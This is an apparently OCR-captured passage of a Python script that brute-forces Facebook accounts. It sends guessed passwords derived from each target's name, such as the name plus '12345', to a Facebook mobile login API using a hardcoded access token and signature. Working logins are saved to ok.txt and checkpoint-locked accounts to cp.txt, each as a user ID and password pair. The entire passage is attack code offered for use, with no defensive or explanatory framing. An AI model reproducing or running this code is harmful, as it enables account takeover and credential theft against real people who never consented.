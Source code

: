 		            if 'www.facebook.com' in d['error_msg']:

		                print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass2)

		                cp=open("cp.txt","a")

		                cp.write(uid+" | "+pass2+"\n")

		                cp.close()

		                cps.append(uid)

		            else:

		                if 'access_token' in d:

		                    print("\x1b[1;97m[SAM-OK] "+uid+" | "+pass2+"\x1b[1;0m")

		                    ok=open("ok.txt","a")

		                    ok.write(uid+" | "+pass2+"\n")

		                    ok.close()

		                    oks.append(uid)

		                else:

		                    pass3=name+"12345"

		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                    d=json.loads(q)

		                    if 'www.facebook.com' in d['error_msg']:

		                        print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass3)

		                        cp=open("cp.txt","a")

		                        cp.write(uid+" | "+pass3+"\n")

		                        cp.close()

		                        cps.append(uid)

		                    else:

		                        if 'access_token' in d:

		                            print(" \x1b[1;97m[SAM-OK] "+uid+" | "+pass3+"\x1b[1;0m")

		                            ok=open("ok.txt","a")

		                            ok.write(uid+" | "+pass3+"\n")

		                            ok.close()

		                            oks.append(uid)

		                        else:
